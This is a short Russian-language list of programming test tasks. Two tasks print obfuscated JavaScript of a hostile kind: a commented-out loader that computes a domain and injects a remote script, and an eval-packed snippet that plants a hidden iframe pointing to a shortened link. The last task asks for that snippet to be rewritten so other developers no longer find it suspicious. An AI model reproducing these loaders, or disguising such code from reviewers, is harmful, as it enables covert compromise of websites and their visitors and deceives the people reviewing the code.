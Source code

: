 Здесь будет различная подборка тестовых заданий, которые я встречал. 


1) задание первое:
        раздуть код 
                name='foo';alert(window.name);
        до одного килобайта.

2) задание второе:
        Объяснить, с какого адреса данный код
              <script type="text/javascript" id="73901220182">
            //    (function(d,c,b,a,e){
            //        with(new Image)onload=function(){with(this)a.push((1E6+1E3*width+1*height+a).slice(-6).replace(/\d{2}/g,
            //        function(a){return"%"+(+a+97).toString(16)+c.split("")[a%6]})),a.push("com"),a=["/",unescape(a.join(".")),
          //         [(new Date).getTime(),b.domain,e,0].join(",")],b.body.appendChild(b.createElement(c)).src=a.join(a[0])},src=d
          //      })("http://serve.oxystatic.com/init","script",document,[],73901220182)
                </script>
        подгрузит скрипт, и почему.

3) задание третье:
        Почему код по ссылке
          var _0x371a=["\x30\x2E\x31\x7C\x7C\x30\x2E\x35\x28\x27\x3C\x31\x3E\x27\x29\x3B\x32\x3D\x30\x2E\x31\x2E\x36\x28\x30\x2E\x34\x28\x27\x33\x27\x29\x29\x3B\x32\x2E\x37\x3D\x27\x38\x3A\x2F\x2F\x64\x2E\x63\x2F\x62\x27\x2C\x32\x2E\x39\x2E\x61\x3D\x27\x65\x27\x3B","\x7C","\x73\x70\x6C\x69\x74","\x64\x6F\x63\x75\x6D\x65\x6E\x74\x7C\x62\x6F\x64\x79\x7C\x6E\x73\x6F\x64\x6B\x7C\x69\x66\x72\x61\x6D\x65\x7C\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74\x7C\x77\x72\x69\x74\x65\x7C\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64\x7C\x73\x72\x63\x7C\x68\x74\x74\x70\x7C\x73\x74\x79\x6C\x65\x7C\x64\x69\x73\x70\x6C\x61\x79\x7C\x31\x32\x33\x34\x35\x36\x7C\x67\x6C\x7C\x67\x6F\x6F\x7C\x6E\x6F\x6E\x65","\x5C\x62","\x67","\x72\x65\x70\x6C\x61\x63\x65"];eval(function(_0x1019x1,_0x1019x2,_0x1019x3,_0x1019x4,_0x1019x5,_0x1019x6){while(_0x1019x3--){if(_0x1019x4[_0x1019x3]){_0x1019x1=_0x1019x1[_0x371a[6]]( new RegExp(_0x371a[4]+_0x1019x3.toString(_0x1019x2)+_0x371a[4],_0x371a[5]),_0x1019x4[_0x1019x3])}};return _0x1019x1;}(_0x371a[0],15,15,_0x371a[3][_0x371a[2]](_0x371a[1])));
        выглядит подозрительно?
        Переписать его так, чтобы он больше не вызывал подозрений у других разработчиков.
